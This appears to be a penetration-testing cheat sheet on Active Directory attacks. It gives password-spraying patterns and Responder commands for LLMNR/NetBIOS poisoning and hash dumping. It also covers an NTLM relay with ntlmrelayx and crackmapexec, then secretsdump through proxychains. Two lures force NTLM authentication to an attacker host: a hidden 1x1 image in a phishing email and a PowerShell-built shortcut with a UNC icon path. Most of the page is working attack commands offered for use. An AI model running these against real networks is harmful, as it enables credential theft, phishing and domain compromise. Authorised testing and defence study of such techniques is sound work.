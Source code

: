 ```yaml
---
title: AD Attacks
category: Active Directory
order: 99
---
```


# Password Spraying

Password spraying is an effective technique for discovering weak passwords that users are notorious for using. Patterns such as MonthYear (August2022), SeasonYear (Summer2022) and DayDate (Tuesday6) are very common.

Another pattern too common is the name of the company and the year (Corp2022)


# LLMNR / NetBIOS Poisoning

We can grab some hashed credentials if LLMNR protocol is enabled.

```
sudo responder -I eth0 -Fw
```

After some time we can get all the hashes.

```
cd /usr/share/responder
sudo python DumpHash.py
```

# NTLM Relay (SMB signing disabled)

Some tiems some server are misconfigured and have the smb signing disabled, so we can perform more attacks with responder.

## Configuration

* /etc/proxychains4.conf

```
socks4  127.0.0.1       1080
```

* /usr/share/responder/Responder.conf

```
[Responder Core]

; Servers to start
SMB = Off
HTTP = On
```

## Perform the attack

We need to get a list of the servers with the SMB sigining disabled.

```
crackmapexec smb --gen-relay-list vulnerable_servers.txt 10.10.10.0/24
```

Execute the attack with Responder and Impacket.

```
impacket-ntlmrelayx.py -tf ./vulnerable_servers.txt -socks -smb2support
sudo responder -I eth0
```

We can list the current sessions with the next command.

```
ntlmrelayx> socks
```

When a session with administrative privileges is found we can use secretsdump or other tool with proxychains to use the session captured.

```
proxychains impacket-secretdump DOMAIN/admin@IP
```

# Forcing NTLM Authentication

You can try to socially engineer a privilege user to authenticate to you.

## 1x1 Images in Emails

You can send an invisible 1x1 pixel image embedded on a body of a phishing email. When the recipient view the email in their mail client, such as Outlook, it will attempt to download the image and will trigger an NTLM authentication attemp.

```
<img src="\\<attacker-ip>\image.png" height="1" width="1" />
```

> **Note**: Modify the email signature of a user, so when they send legitimate emails they will trigger NTLM authentication.

## Windows Shortcuts

A windows shortcut can have multiple properties such as directory and an icon.

We can create a icon property pointing to a UNC path and will trigger an NTLM authentication attempt when it's viewed in Explorer even if it doesn't have been clicked.

```
$wsh = new-object -ComObject wscript.shell
$shortcut = $wsh.CreateShortcut("\\smbsrv01\software\test.lnk")
$shortcut.IconLocation = "\\<attacker-ip>\test.ico"
$shortcut.Save()
```
A good location would be public readable shares.